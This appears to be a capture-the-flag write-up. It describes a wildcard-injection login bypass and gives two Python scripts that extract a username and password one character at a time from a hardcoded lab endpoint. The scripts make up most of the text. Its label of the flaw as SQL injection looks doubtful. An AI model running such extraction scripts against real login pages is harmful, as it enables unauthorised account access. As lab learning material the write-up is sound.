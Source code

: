 
there was a html injection which can transfer into a xss (actually it is a DOM:XSS )
but it is useless ,because the flag does not in there 

the backend technology cannot guess so  just tried to exploit with SQLI , the result is the ' * ' mark can bypass the login page ,but without priviledges

so now we have to brute force the username and the password.

ran 2 manually coded scripts ,for both username and the password

## username_bruteforce.py

```python
import requests

char_list = [
    'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 
    'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z',
    'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M',
    'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z',
    '0', '1', '2', '3', '4', '5', '6', '7', '8', '9',
    '!', '@', '#', '$', '%', '^', '&', '*', '(', ')', '-', '_', '+', '=', '[', ']', '{', '}', '|', '\\', ';', ':', "'", '"', ',', '.', '<', '>', '/', '?', '`', '~'
]

url = 'http://157.245.39.76:32142/login'
myobj = {'username': 'somevalue', 'password': '*'}
result = ''

flag = 1
while flag == 1:
    flag = 0
    for char in char_list:
        myobj['username'] = result + char + '*'
        r = requests.post(url, data=myobj, proxies={'http': 'http://127.0.0.1:8080'})
        if 'No search results' in r.text:
            result += char
            flag = 1
            print(result)
            break

print('Finish!!')

```

## password_bruteforce.py
```python
import requests

char_list = [
    'a', 'b', 'c', 'd', 'e', 'f', 'g', 'h', 'i', 'j', 'k', 'l', 'm', 
    'n', 'o', 'p', 'q', 'r', 's', 't', 'u', 'v', 'w', 'x', 'y', 'z',
    'A', 'B', 'C', 'D', 'E', 'F', 'G', 'H', 'I', 'J', 'K', 'L', 'M',
    'N', 'O', 'P', 'Q', 'R', 'S', 'T', 'U', 'V', 'W', 'X', 'Y', 'Z',
    '0', '1', '2', '3', '4', '5', '6', '7', '8', '9',
    '!', '@', '#', '$', '%', '^', '&', '*', '(', ')', '-', '_', '+', '=', '[', ']', '{', '}', '|', '\\', ';', ':', "'", '"', ',', '.', '<', '>', '/', '?', '`', '~'
]

url = 'http://157.245.39.76:32142/login'
myobj = {'username': 'reese', 'password': 'somevalue'}
result = ''

flag = 1
while flag == 1:
    flag = 0
    for char in char_list:
        myobj['password'] = result + char + '*'
        r = requests.post(url, data=myobj, proxies={'http': 'http://127.0.0.1:8080'})
        if 'No search results' in r.text:
            result += char
            flag = 1
            print(result)
            break

print('Finish!!')

```

the password result gave the flag. :)
